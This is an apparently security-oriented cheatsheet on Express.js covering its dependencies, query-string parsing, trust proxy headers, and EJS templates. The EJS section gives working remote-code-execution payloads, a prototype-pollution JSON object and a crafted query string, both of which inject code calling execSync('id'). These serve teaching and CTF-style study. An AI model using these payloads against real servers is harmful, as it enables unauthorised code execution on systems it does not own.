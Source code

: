 ```yaml
---
title: "Express.js"
description: "Cheatsheet on Express.js library"
lead: "Cheatsheet on Express.js library"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "topics"
weight: 620
toc: true
---
```


## Express stack

[Express](https://www.npmjs.com/package/express) is a minimalist web framework for Node.js which has 31 [dependencies](https://www.npmjs.com/package/express?activeTab=dependencies).

{{< details "List of dependencies" >}}
- [accepts](https://www.npmjs.com/package/accepts): Return a different typed respond body based on what the client wants to accept.
- [array-flatten](https://www.npmjs.com/package/array-flatten): Flatten nested arrays (e.g. `flatten([1, [2, 3]])` => `[1, 2, 3]`.
- [body-parser](https://www.npmjs.com/package/body-parser): HTTP request body parsing middleware (`req.body` property).
- [content-disposition](https://www.npmjs.com/package/content-disposition): Create and parse HTTP `Content-Disposition` header.
- [content-type](https://www.npmjs.com/package/content-type): Create and parse HTTP `Content-Type` header.
- [cookie](https://www.npmjs.com/package/cookie): Basic HTTP cookie parser and serializer.
- [cookie-signature](https://www.npmjs.com/package/cookie-signature): Sign and unsign cookies.
- [debug](https://www.npmjs.com/package/debug): JavaScript debugging utility (`debug(...)`, `DEBUG='*' node index.js`).
- [depd](https://www.npmjs.com/package/depd): Mark things deprecated.
- [encodeurl](https://www.npmjs.com/package/encodeurl): Encode a URL to a percent-encoded form, excluding already-encoded sequences.
- [escape-html](https://www.npmjs.com/package/escape-html): Escape string for use in HTML (HTML entity, e.g. `&` => `&amp;`).
- [etag](https://www.npmjs.com/package/etag): Generates HTTP ETags in HTTP responses.
- [finalhandler](https://www.npmjs.com/package/finalhandler): Function to invoke as the final step to respond to HTTP request.
- [fresh](https://www.npmjs.com/package/fresh): Check for caching using `if-none-match` and `etag` HTTP headers.
- [http-errors](https://www.npmjs.com/package/http-errors): Create HTTP errors.
- [merge-descriptors](https://www.npmjs.com/package/merge-descriptors): Merge objects using descriptors (call descriptors and merge).
- [methods](https://www.npmjs.com/package/methods):
- [on-finished](https://www.npmjs.com/package/on-finished):
- [parseurl](https://www.npmjs.com/package/parseurl):
- [path-to-regexp](https://www.npmjs.com/package/path-to-regexp):
- [proxy-addr](https://www.npmjs.com/package/proxy-addr):
- [qs](https://www.npmjs.com/package/qs):
- [range-parser](https://www.npmjs.com/package/range-parser):
- [safe-buffer](https://www.npmjs.com/package/safe-buffer):
- [send](https://www.npmjs.com/package/send):
- [serve-static](https://www.npmjs.com/package/serve-static):
- [setprototypeof](https://www.npmjs.com/package/setprototypeof):
- [statuses](https://www.npmjs.com/package/statuses):
- [type-is](https://www.npmjs.com/package/type-is):
- [utils-merge](https://www.npmjs.com/package/utils-merge):
- [vary](https://www.npmjs.com/package/vary):
{{< /details >}}

## Query string parsing

| URL                       | Content of request.query.foo in code                |
| ------------------------- | --------------------------------------------------- |
| `?foo=bar`                | `'bar'` (string)                                    |
| `?foo=bar&foo=baz`        | `['bar', 'baz']` (array of string)                  |
| `?foo[]=bar`              | `['bar']` (array of string)                         |
| `?foo[]=bar&foo[]=baz`    | `['bar', 'baz']` (array of string)                  |
| `?foo[bar]=baz`           | `{ bar : 'baz' }` (object with a key)               |
| `?foo[]=bar`              | `['bar']` (array of string)                         |
| `?foo[]baz=bar`           | `['bar']` (array of string - postfix is lost)       |
| `?foo[][baz]=bar`         | `[ { baz: 'bar' } ]` (array of object)              |
| `?foo[bar][baz]=bar`      | `{ foo: { bar: { baz: 'bar' } } }` (object tree)    |
| `?foo[10]=bar&foo[9]=baz` | `[ 'baz', 'bar' ]` (array of string - notice order) |
| `?foo[toString]=bar`      | `{}` (object where calling `toString()` will fail)  |

> Table from [OWASP - Node.js Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Nodejs_Security_Cheat_Sheet.html#perform-input-validation).

## Trust proxy

Enabling `trust proxy` will have the following impact:

- `req.hostname` = `X-Forwarded-Host`
- `req.protocol` = `X-Forwarded-Proto` (https or http or even an invalid name)
- `req.ip` and `req.ips` = `X-Forwarded-For`

The trust proxy setting is implemented using the [proxy-addr](https://www.npmjs.com/package/proxy-addr) package. See [docs](https://expressjs.com/en/guide/behind-proxies.html).

## EJS

[Embedded JavaScript templates (EJS)](https://www.npmjs.com/package/ejs) is a NodeJS library very often used by Express to create HTML templates.

### RCE on render

The following code is inside EJS ([lib/ejs.js](https://github.com/mde/ejs/blob/v3.1.9/lib/ejs.js#L509) - v3.1.9). If you control the value of both variables `client` and `escape`, you can get a RCE.

```js
function Template(text, opts) {
    // ...
    options.client = opts.client || false;
    options.escapeFunction = opts.escape || opts.escapeFunction || utils.escapeXML;

    this.opts = options;
    // ...
  }

Template.prototype = {
    // ...
    compile: function () {
        var opts = this.opts;
        var escapeFn = opts.escapeFunction;

        if (opts.client) {
            src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
        }
        // ...
        // src is evaluated later
    }
}
```

{{< details "EJS RCE - Proof Of Concept" >}}
There are two options for controlling these variables.

1. Abuse server-side prototype pollution (SSPP)
2. Custom parameters to the render function of EJS

#### 1. SSPP

> Full article on [mizu.re](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce).

**TL;DR:**

```json
{
    "__proto__": {
        "client": 1,
        "escape": "1;return process.mainModule.require('child_process').execSync('id');"
    }
}
```

#### 2. Custom parameters of render

> Inspired from the challenge *Peculiar Caterpillar* of the [FCSC2023](https://france-cybersecurity-challenge.fr).

`req.query` will be equal to the `options` parameter passed to the `render` function of `Express`.

```js
require("express")()
.set("view engine", "ejs")
.use((req, res) => {
    res.render("index", { ...req.query })
})
.listen(3000);
```

The `render` function of `Express` calls the `renderFile` function of EJS.

- `render` => `renderFile` => `...` => `Template.new` => `Template.compile`

Here is the code of the `renderFile` function of EJS:

```js
var _OPTS_PASSABLE_WITH_DATA = ['delimiter', 'scope', 'context', 'debug', 'compileDebug',
  'client', '_with', 'rmWhitespace', 'strict', 'filename', 'async'];

// ...
exports.renderFile = function () {
    var args = Array.prototype.slice.call(arguments);
    var filename = args.shift();        // arg[0] = PATH of the template
    var opts = {filename: filename};

    // ...
    data = args.shift();                // arg[1] = {
                                        //    "settings": env, view engine, etag, ...,
                                        //    query string,
                                        //    "cache": false
                                        // }
    viewOpts = data.settings['view options'];
    if (viewOpts) {
      utils.shallowCopy(opts, viewOpts);
    }

    // 'client' is allowed to be copied
    utils.shallowCopyFromList(opts, data, _OPTS_PASSABLE_WITH_DATA_EXPRESS);
    // ...

    return tryHandleCache(opts, data, cb);
};
```

The `opts` variable is then passed to the `Template` object. So, we can get a RCE with the following query string.

```
?settings[view options][escape]=1;return+process.mainModule.require("child_process").execSync("id").toString();
&client=1
```

This query string is equals to:

```json
{
  settings: {
    'view options': {
      escape: '1;return process.mainModule.require("child_process").execSync("id").toString();'
    }
  },
  client: '1'
}
```
{{< /details >}}
